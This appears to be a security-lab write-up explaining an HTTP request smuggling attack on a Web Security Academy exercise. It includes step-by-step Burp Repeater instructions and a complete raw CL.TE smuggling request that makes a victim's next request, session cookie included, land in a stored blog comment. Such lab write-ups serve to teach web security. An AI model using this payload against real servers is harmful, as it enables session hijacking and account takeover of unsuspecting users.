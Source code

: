 Sending **/post/comment** to repeater,So we cam see that what parameter it will takes.

<img width="1901" height="702" alt="image" src="https://github.com/user-attachments/assets/06710dbf-f00a-46d3-bfd0-80a2a290b7f9" />

As we can see that it is taking **six** pararameter

<img width="1883" height="749" alt="image" src="https://github.com/user-attachments/assets/b5120025-e655-4be7-ba19-3a924ef2059f" />

### HTTP Request Smuggling to Capture Session Cookie


1. **Send the `comment-post` request to Burp Repeater.**
2. Shuffle the body parameters so that the `comment` parameter is the **last** one in the request.
3. Confirm that the comment still successfully gets stored on the blog.
4. **Increase the `Content-Length` header** of the smuggled request gradually.
   - Initially set to `400`, but no session cookie captured.
   - Once increased to around `950`, the session cookie of the victim is successfully captured.

---

### Final Payload Used

```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 256
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=your-session-token

csrf=your-csrf-token&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test
```

### How This Payload Works

* The `comment` field is deliberately positioned **at the end** of the body in the smuggled `POST` request.
* The `Content-Length` of the smuggled comment-post request is declared as `400`, but **only \~250 bytes** are actually sent.
* This causes the back-end server to **wait for the remaining \~150 bytes** to complete the declared body length.
* When the **next user request** hits the same backend connection, its start (which includes their session cookie) is interpreted as part of the smuggled request's body.
* The **session cookie** or other sensitive data from the victim is therefore appended to the `comment` field.
* As a result, the victim’s session token becomes visible in the blog comment that the attacker can later view.
